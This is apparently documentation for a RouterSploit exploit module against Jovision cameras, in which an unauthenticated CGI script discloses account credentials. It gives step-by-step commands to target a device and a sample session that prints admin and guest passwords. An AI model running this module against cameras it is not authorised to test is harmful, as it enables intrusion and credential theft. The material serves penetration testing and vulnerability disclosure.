 ## Description

Module exploits a CGI script that doesn't validate whether the client is logged in on some jovision cameras to return credentials.

## Verification Steps


  1. Start ./rsf.py
  2. use exploits/cameras/jovision/jovision_credentials_disclosure
  3. set target 192.168.1.1
  4. run
  5. If device is vulnerable user credentials are returned.

## Scenarios

```
rsf > use exploits/cameras/jovision/jovision_credentials_disclosure
rsf (Jovision camera credential disclosure) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Jovision camera credential disclosure) > run
[*] Running module...
[+] Target seems to be vulnerable
[+] Accounts found:

   Description                   Username      Password     Administrator
   -----------                   --------      --------     -------------
   Admin account                 admin         ADMIN        Yes
   Guest account                 guest         1234         No
```
